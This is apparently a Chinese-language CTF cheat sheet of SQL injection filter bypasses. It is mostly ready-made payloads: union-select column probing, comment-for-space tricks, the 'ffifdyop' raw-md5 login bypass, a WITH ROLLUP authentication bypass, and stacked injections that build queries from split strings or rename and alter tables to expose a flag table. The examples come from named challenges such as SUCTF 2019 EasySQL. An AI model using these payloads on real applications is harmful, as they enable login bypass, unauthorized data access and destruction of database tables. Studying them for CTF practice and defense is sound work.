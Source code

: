 ```
    按位与 992|8
    加减乘除都可以 --1000  负负得正
    ~~1000 == 1000


    order by => group by
    测试列数 select * from ads where title = '$title' limit 0,1; 闭合替换$title
        $title ====> -1'/**/group/**/by/**/22,'1
        替换后: select * from ads where title = '-1'/**/group/**/by/**/22,'1' limit 0,1;
    显示看是哪一列 -1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
    取反码 preg_match("/[A-Za-z0-9]+/",$code)

    bypass select -- updatexml，用extractvalue
```
### bypass-sql

```sql
by pass 空格 -- /**/|tab|
by pass ,
        1.将limit 0,1样式改为limit 1 offset 0。
        2.将substr(string,1,1)改为substr(string from 1 for 1)。
        SELECT SUBSTR('abc' from 1 for 1) # == SELECT SUBSTR('abc', 1,1)  # 'a'
        select substr((select group_concat(table_name) from information_schema.tables where table_schema=database())from 1 for 1)
by pass password ='".md5($password,true)."'";
        只要md5加密后的16进制转化为二进制时有 'or’xxxx，即可构成闭合语句： username ='admin' and password =' 'or 'xxxxx' 成功登陆
        两个答案
        1.ffifdyop  #转换后为 b"'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c"
        2.129581926211651571912466741651878684928
by pass  /select|update|delete|drop|insert|where|\./i   堆叠注入-强网杯随便注
    show, 
    -1';show tables#
    -1';show columns from `1919810931114514`#
    -1';desc `1919810931114514`#       -- 显示列名
    -1';desc `words`#
    方式1.预编译
    -1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#


    方式2.修改表名
    --原sql为 select * from words where id = ''; 修改为word表即可查
    1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
by pass strlen($username)!=strlen(replaceSpecialChar($username))+双写+$password==$row['password']
        "/(select|from|where|join|sleep|and|\s|union|,)/i";
        -- ctfshow_web10
        payload:username=admin'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#&password=

        rollup 介绍--with rollup是用来在分组统计数据的基础上再进行统计汇总，即用来得到group by的汇总信息
                   select `password`,count(*) from user GROUP BY `password`
                   select `password`,count(*) from user GROUP BY `password` with ROLLUP
    堆叠注入-[suctf 2019]EasySQL
        sql=“select”.post[‘query’]."||flag from Flag";  -- 输入 *,1
        select *,1||flag from Flag  =>
        select *,1 from Flag
by pass '单引号  [CISCN2019 总决赛 Day2 Web1]Easyweb,网鼎杯2018 comment
by pass =,()
        使用 like ,rlike, regexp
by pass 技术 16进制
        select * from users where user= 0x31; -- user=1; 数据位置能用16进制
by pass 路径, 使用 UNC路径-windows特有
```
